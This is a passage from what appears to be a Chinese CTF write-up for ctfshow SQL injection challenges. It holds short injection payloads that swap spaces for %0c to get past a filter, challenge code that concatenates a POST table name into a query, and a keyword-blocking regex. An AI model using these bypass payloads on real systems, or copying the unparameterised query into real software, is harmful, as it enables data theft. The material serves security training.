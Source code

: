 ```
-1'or%0cusername%0clike'%fla%
```

```
id=-1'or(username%0clike'%fla%')and'1
```

## web183*

### 题目

```
//查询语句
//拼接sql语句查找指定ID用户
  $sql = "select count(pass) from ".$_POST['tableName'].";";
      
//返回逻辑
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\#|\x23|file|\=|or|\x7c|select|and|flag|into/i', $str);
  }

//查询结果
//返回用户表的记录总数
      $user_count = 0;
```

### 思路

  我们 POST 提交 tableName=ctfshow_user，发现有回显显示22条

​    <img src="图片\Snipaste_2023-01-24_14-39-32.png" alt="Snipaste_2023-01-24_14-39-32" style="zoom:67%;" />
